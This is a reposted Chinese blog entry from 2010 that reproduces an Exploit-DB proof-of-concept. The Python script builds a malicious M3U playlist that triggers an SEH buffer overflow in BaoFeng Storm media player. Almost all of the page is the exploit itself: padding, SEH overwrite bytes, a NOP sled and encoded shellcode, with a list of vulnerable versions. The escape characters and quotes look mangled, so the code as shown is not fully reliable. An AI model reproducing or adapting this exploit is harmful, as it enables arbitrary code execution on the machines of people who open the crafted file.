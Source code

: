 ```yaml
---
title: 暴风影音的最新0DAY M3U缓冲区溢出漏洞利用工具exploit
description: post/BaoFeng-Storm-M3U-File-Processing-Buffer-Overflow-Exploit.html">暴风影音的最新0DAYM3U缓冲区溢出漏洞利用工具#Title:post/BaoFeng-Storm-M3U-File-Processing-Buffer-Overflow-Exploit.html">BaoFengStormM3UFileProcessingBufferOverflowExploit#EDB-ID:12516#CVE-ID:()#OSVDB-ID:()#Author:LufengLiandQingshanLi……
date: 2010-05-08 09:24:59
category: 漏洞信息
tags: ['0day', '暴风影音', '漏洞信息', '缓冲区溢出', 'exploit']
post_id: 1134
alias: BaoFeng-Storm-M3U-File-Processing-Buffer-Overflow-Exploit
ViewNums: 3659
---
```


[暴风影音的最新0DAY M3U缓冲区溢出漏洞利用工具](/blog/baofeng-storm-m3u-file-processing-buffer-overflow-exploit)

# Title: [BaoFeng Storm M3U File Processing Buffer Overflow Exploit](/blog/baofeng-storm-m3u-file-processing-buffer-overflow-exploit)
# EDB-ID: 12516
# CVE-ID: ()
# OSVDB-ID: ()
# Author: Lufeng Li and Qingshan Li
# Published: 2010-05-06
# Verified: no
# Download Exploit Code
# Download N/A

view sourceprint?#!/usr/bin/env python

#################################################################

#

# Title: BaoFeng Storm M3U File Processing Buffer Overflow Exploit

# CNVD-ID: CNVD-2010-00752

# Author: Lufeng Li and Qingshan Li of Neusoft Corporation

# Download: [www.baofeng.com](http://www.baofeng.com/)

# Test: Put m3u file in root(e.g. c:/ d:/),and open this m3u file

# Platform: Windows XPSP3 Chinese Simplified

# Vulnerable: Storm2012 3.10.4.21

# Storm2012 3.10.4.16

# Storm2012 3.10.4.8

# Storm2012 3.10.3.17

# Storm2012 3.10.2.5

# Storm2012 3.10.1.12

#################################################################

# Code :

file= “[baofeng.m3u](/blog/baofeng-storm-m3u-file-processing-buffer-overflow-exploit)”

junk =”x41″*795

nseh=”x61xe8xe1″

seh=”xaaxd7x40″

jmp =”x53x53x6dx58x6dx05x11x22x6dx2dx10x22x6dxacxe4″

nops =”x42″ * 110

shellcode=(“PPYAIAIAIAIAQATAXAZAPA3QADAZA”

“BARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA”

“58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABAB”

“AB30APB944JBKLK8U9M0M0KPS0U99UNQ8RS44KPR004K”

“22LLDKR2MD4KCBMXLOGG0JO6NQKOP1WPVLOLQQCLM2NL”

“MPGQ8OLMM197K2ZP22B7TK0RLPTK12OLM1Z04KOPBX55″

“Y0D4OZKQXP0P4KOXMHTKR8MPKQJ3ISOL19TKNTTKM18V”

“NQKONQ90FLGQ8OLMKQY7NXK0T5L4M33MKHOKSMND45JB”

“R84K0XMTKQHSBFTKLL0KTK28MLM18S4KKT4KKQXPSYOT”

“NDMTQKQK311IQJPQKOYPQHQOPZTKLRZKSVQM2JKQTMSU”

“89KPKPKP0PQX014K2O4GKOHU7KIPMMNJLJQXEVDU7MEM”

“KOHUOLKVCLLJSPKKIPT5LEGKQ7N33BRO1ZKP23KOYERC”

“QQ2LRCM0LJA”)

fobj=open(file,”w”)

payload=junk+nseh+seh+jmp+nops+shellcode

fobj.write(payload)

fobj.close()

via [neeao](http://hackeye.com/post/6528.html)

